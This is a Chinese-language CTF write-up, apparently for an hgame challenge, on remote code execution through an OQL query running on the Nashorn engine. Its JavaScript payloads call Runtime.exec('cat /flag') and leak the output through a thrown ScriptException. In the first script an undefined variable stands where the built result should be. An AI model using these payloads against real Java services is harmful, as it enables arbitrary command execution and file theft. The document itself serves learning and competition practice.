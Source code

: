 RCE嘛那应该就是读文件里的flag，`dockerfile`中显示将`/data` copy到了根目录，所以应该要读的就是`/flag`

通过报错发现用了`NashornEngine`，可以执行Java语句

翻到有一篇十年前的OQL RCE文章，用经典语句试了一下

```javascript
java.lang.Runtime.getRuntime().exec('cat /flag')
```

回显了`java.lang.UNIXProcess@xxxxxxxx`，了解了一下应该是`Process`对象的默认字符串表示形式，在执行子进程时会返回`Process`对象，输出这个对象的时候调用了默认的`toString()`，所以这个点应该是有效的，所以问题的关键就变成了如何将这个进程的结果回显出来

~~然后就这么愉快地卡住了~~

尝试了很多，翻到别的OQL有反射洞，但是利用不了。然后想着应该是可以用报错的方式把文件内容抛出来，最后也是成功了

```javascript
//在gpt的帮助下整出来了第一版exp

var BufferedReader = java.io.BufferedReader;
var InputStreamReader = java.io.InputStreamReader;

try {
    var process = java.lang.Runtime.getRuntime().exec('cat /flag');
    var inputStream = process.getInputStream();
    var reader = new BufferedReader(new InputStreamReader(inputStream));

    var line;
    var result = new java.lang.StringBuilder();

    while ((line = reader.readLine()) != null) {
        result.append(line).append('\n');
    }
    
	//这里有一个可有可无的toString()转换

    throw new javax.script.ScriptException("File content: " + fileContent);
} catch (e) {
    
    throw new javax.script.ScriptException("File content: " + fileContent);
}


//Caused by: <eval>:22:3 javax.script.ScriptException: File content: hgame{} 会这样抛出flag
```

然后想看看有没有其他方法，或者说是怎么做到的（？）

修改了一下发现应该是如果有`String`类的时候会被读取且只显示最后一个 *可能是利用反射，还是不清楚实现方式*

```javascript
//然后自己弄出了另一种回显，类似于查询之后的显示

var BufferedReader = java.io.BufferedReader;
var InputStreamReader = java.io.InputStreamReader;
var process = java.lang.Runtime.getRuntime().exec('cat /flag');
var inputStream = process.getInputStream();
var reader = new BufferedReader(new InputStreamReader(inputStream));
var line;
var result = new java.lang.StringBuilder();

while ((line = reader.readLine()) != null) {
        result.append(line);
    }

//这里有一个可有可无的toString()转换

//只显示flag内容
```